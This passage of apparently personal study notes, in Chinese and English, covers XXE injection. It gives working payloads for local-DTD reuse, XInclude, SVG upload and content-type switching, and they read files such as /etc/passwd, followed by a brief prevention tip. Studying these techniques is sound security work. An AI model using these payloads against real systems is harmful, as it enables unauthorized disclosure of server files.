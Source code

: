 找本地的DTD文件：

可以根据error信息找

GNOME有/usr/share/yelp/dtd/docbookx.dtd

```xml
<!DOCTYPE foo [<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">%local_dtd;]>
```

# 3.Finding hidden attack surface for XXE injection

## XInclude attacks

```xml
example：
original： productId=1&storeId=1

set：
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

## XXE attacks via file upload

有时上传的文件可以包含xml，比如DOCX或者SVG

example：svg图片

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

## XXE attacks via modified content type

```xml
original：
Content-Type: application/x-www-form-urlencoded 
foo=bar

set：
Content-Type: text/xml
<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```



HOW TO PREVENT:disable resolution of external entities and disable support for XInclude

后续参考链接：[一篇文章带你深入理解漏洞之 XXE 漏洞 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/3357#toc-8)